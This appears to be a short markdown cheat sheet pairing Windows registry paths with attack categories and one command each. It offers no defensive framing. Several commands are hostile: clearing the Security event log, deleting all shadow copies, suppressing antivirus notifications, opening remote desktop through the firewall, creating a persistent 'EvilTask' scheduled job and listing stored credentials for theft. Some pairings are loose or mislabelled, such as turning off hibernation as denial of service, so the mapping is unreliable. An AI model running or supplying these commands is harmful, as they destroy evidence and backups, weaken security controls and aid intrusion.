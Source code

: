 ### Windows Activation Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SoftwareProtectionPlatform`  
**Attacks:** Activation Bypass, Licensing Manipulation  
**Codes:** `slmgr /rearm`

### Windows Update Control
**Registry Path:** `HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate`  
**Attacks:** Update Manipulation, Vulnerability Exploitation  
**Codes:** `wuauclt /detectnow`

### Windows Firewall Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy`  
**Attacks:** Firewall Bypass, Unauthorized Access  
**Codes:** `netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`

### Windows Security Center Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Security Center`  
**Attacks:** Security Alert Suppression, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Security Center /v AntiVirusDisableNotify /t REG_DWORD /d 1`

### Windows Event Viewer Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\EventViewer`  
**Attacks:** Log Manipulation, Evidence Tampering  
**Codes:** `wevtutil cl Security`

### Windows Performance Monitor Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Perflib`  
**Attacks:** System Monitoring, Data Theft  
**Codes:** `logman create counter EvilMonitor -o "C:\evil.log" -f csv -v mmddhhmm -c "\Processor(_Total)\% Processor Time"`

### Windows Power Configuration Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Power`  
**Attacks:** Energy Consumption Manipulation, Denial of Service  
**Codes:** `powercfg /hibernate off`

### Windows Credential Manager Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Cryptography\Protect\Providers\df9d8cd0-1501-11d1-8c7a-00c04fc297eb`  
**Attacks:** Credential Theft, Data Decryption  
**Codes:** `cmdkey /list`

### Windows Task Scheduler Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache`  
**Attacks:** Scheduled Task Manipulation, Persistence  
**Codes:** `schtasks /create /tn EvilTask /tr evil.exe /sc daily`

### Windows System Restore Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore`  
**Attacks:** System Restore Manipulation, Evidence Tampering  
**Codes:** `vssadmin delete shadows /all`
